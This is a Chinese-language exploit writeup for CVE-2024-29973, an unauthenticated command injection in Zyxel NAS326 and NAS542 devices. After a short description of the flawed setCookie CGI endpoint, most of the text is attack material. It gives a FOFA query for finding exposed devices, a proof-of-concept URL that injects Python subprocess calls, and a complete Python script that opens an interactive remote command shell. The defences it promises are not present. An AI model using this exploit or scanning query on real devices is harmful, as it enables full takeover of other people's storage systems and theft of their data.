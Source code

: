 # CVE-2024-29973

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Zyxel NAS设备  未授权命令注入



## 0x01 漏洞描述

Zyxel NAS 设备曝出了一个重大安全漏洞（CVE-2024-29973），该漏洞允许远程攻击者在受影响的设备上执行任意代码。这一漏洞已经被广泛关注，并被证实可以在实际中复现。本文将详细介绍该漏洞的成因、利用方式以及如何检测和防御这种攻击。

## 0x02 **漏洞成因**

Zyxel NAS 设备中存在一个不安全的 CGI 接口 `/cmd,/simZysh/register_main/setCookie`。该接口的参数 `c0` 没有正确的输入校验，导致用户可以通过特殊构造的输入来注入系统命令，并以设备权限执行这些命令。这种远程代码执行（RCE）漏洞为攻击者提供了完全控制受影响设备的能力，可能导致数据泄露、服务中断等严重后果。

## 0x03 影响版本

```cpp
Zyxel NAS326 < V5.21(AAZF.17)C0
Zyxel NAS542 < V5.21(ABAG.14)C0
```

## 0x04 fofa搜索语法

```cpp
body="/cmd,/ck6fup6/user_grp_cgi/cgi_modify_userinfo"
```

## 0x05 漏洞复现

### POC

```cpp
{Target Address}/cmd,/simZysh/register_main/setCookie?c0=storage_ext_cgi+CGIGetExtStoInfo+None)+and+False+or+__import__("subprocess").check_output("id",+shell=True)%23
```

![Untitled](image/Untitled.png)

![Untitled](image/Untitled%201.png)

### 利用脚本

```python
# TracelessSec
# By A-little-dragon

from datetime import datetime
import requests
from urllib.parse import quote

class ZyxelNASExploit:
    def __init__(self, url, verify=True):
        self.baseAPIUrl = url
        self.verify = verify

    def GetResponse(self, method, url, data=None, params=None, jsons=None, headers=None, re_conn=0):
        try:
            with requests.request(method=method, url=url, data=data, params=params, json=jsons, headers=headers,
                                  verify=self.verify) as response:
                return response.status_code, response
        except:
            if re_conn > 5:
                return 1001, ''
            self.GetResponse(method, url, data, params, headers, re_conn=re_conn + 1)

    def start(self):
        print("请输入要执行的命令！")
        while True:
            sendMSG = input("$ > ")
            if sendMSG == "exit":
                break
            code, res = self.GetResponse(method="GET",
                                         url=self.baseAPIUrl + f"/cmd,/simZysh/register_main/setCookie?c0=storage_ext_cgi+CGIGetExtStoInfo+None)+and+False+or+__import__(\"subprocess\").check_output(\"{quote(sendMSG)}\",+shell=True)%23")
            if code == 1001:
                print("请求失败！")
            else:
                try:
                    res = res.json()
                    if res["errmsg0"] == "OK":
                        print(res["zyshdata0"][0].replace("\\n", "\n"))
                    else:
                        print(res["errmsg0"], "结果如下：", res["zyshdata0"])

                except Exception as e:
                    print("出现错误！如下：", e)

if __name__ == '__main__':
    url = "http://{ip}:{port}/"
    ZyxelNASExploit(url=url, verify=True).start()

```